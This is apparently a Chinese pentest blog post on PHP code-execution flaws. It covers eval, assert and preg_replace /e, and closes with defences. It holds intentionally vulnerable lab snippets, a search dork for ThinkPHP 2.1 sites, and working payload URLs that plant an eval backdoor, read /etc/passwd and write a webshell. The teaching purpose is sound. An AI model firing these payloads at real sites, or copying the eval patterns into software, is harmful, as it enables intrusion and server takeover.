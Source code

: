 +++
date = "2016-07-25T22:32:51+08:00"
description = ""
draft = false
tags = ["代码执行"]
title = "代码执行漏洞(一)"
topics = ["Pentest"]

+++

### 0x00 代码执行
当应用在调用一些能将字符转化为代码的函数(如PHP中的eval)时，没有考虑用户是否能控制这个字符串，这就会造成代码执行漏洞。

### 0x01 相关函数
```
PHP：eval assert
Python：exec
asp：<%=CreateObject(“wscript.shell”).exec(“cmd.exe /c ipconfig”).StdOut.ReadAll()%>
Java：没有类似函数，但采用的反射机制和各种基于反射机制的表达式引擎(OGNL、SpEL、MVEL等)有类似功能
```

### 0x02 phpcms中的string2array函数
这个函数可以将phpcms的数据库settings的字符串形式的数组内容转换为真实的数组
```
array(  //这个是字符串形式的数组，它并不是数组，而是字符串
    'upload_maxsize' => '2048',
    'upload_allowext' => 'jpg|jpeg|gif|bmp|png|doc|docx|xls|xlsx|ppt|pptx|pdf|txt|rar|zip|swf', 
    'watermark_enable' => '1',
    'watermark_minwidth' => '300',
    'watermark_minheight' => '300',
    'watermark_img' => '/statics/img/water/mark.png',
    'watermark_pct' => '85',
    'watermark_quality' => '80',
    'watermark_pos' => '9',
)
```
```php
function string2array($data) {
    //这个函数可以将字符串$data转化为数组
    if($data == '') 
        return array(); 
    @eval("\$array = $data;"); 
        return $array;
}
```

### 0x03 漏洞危害
* 执行代码
* 让网站写shell
* 甚至控制服务器

### 0x04 漏洞分类(也是利用点)
```
执行代码的函数：eval、assert
callback函数：preg_replace + /e模式
反序列化：unserialize()(反序列化函数)
```

### 0x05 漏洞挖掘
```
框架找漏洞，如ThinkPHP：
  inurl:index.php intext:ThinkPHP 2.1 { Fast & Simple OOP PHP Framework }
框架的URL格式如下：
  Site:Port/Module name/Method name/Property name/Preperty value
  Site:Port/index.php?m=Module_name&f=Method_name&v=Preperty_value
  
  www.xx.com:88/News/show/id/328
  www.yy.com:99/index.php?m=News&f=detail&item=23
  www.zz.com/global_cms_contentview_id_2435
```

### 0x06 搭建环境实验
* 示例一
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = $data;");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数1](/img/post/code_execution_eval1.png)

* 示例二
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower('$data');");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数2](/img/post/code_execution_eval2.png)

* 示例三
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数3](/img/post/code_execution_eval3.png)
![代码执行漏洞使用eval函数4](/img/post/code_execution_eval4.png)

* 示例四
```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
![代码执行漏洞使用eval函数5](/img/post/code_execution_eval5.png)
![代码执行漏洞使用eval函数6](/img/post/code_execution_eval6.png)

* 示例五  
mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])  
/e修正符使preg_replace()将replacement参数当作PHP 代码(在适当的逆向引用替换完之后)
```php
<?php
    $data = $_GET['data'];
    $ret = preg_replace('/<data>(.*?)<\/data>/e','$ret = "\\1"',$data);
    echo $ret;
?>
```
![代码执行漏洞使用preg_replace函数](/img/post/code_execution_preg_replace.png)

### 0x07 具体操作
```
# 一般找CMS相应版本漏洞，如ThinkPHP2.1
* 一句话
    http://www.xxx.com/News/detail/id/{${@eval($_POST[aa])}}
* 得到当前路径
    http://www.xxx.com/News/detail/id/{${print(getcwd()))}}
* 读文件
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_get_contents($_POST['f'])))}}
    POST的数据为：f=/etc/passwd
* 写shell
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_put_contents($_POST['f'],$_POST[d])))}}
    POST的数据为：f=1.php&d=<?php @eval($_POST['aa'])?>
```

### 0x08 漏洞防御
* 使用json保存数组，当读取时就不需要使用eval了
* 对于必须使用eval的地方，一定严格处理用户数据
* 字符串使用单引号包括可控代码，插入前使用addslashes转义
* 放弃使用preg_replace的e修饰符，使用preg_replace_callback()替换
* 若必须使用preg_replace的e修饰符，则必用单引号包裹正则匹配出的对象

#### 下一篇：[代码执行漏洞(二)](/posts/code-execution-vulnerabilities-2/)
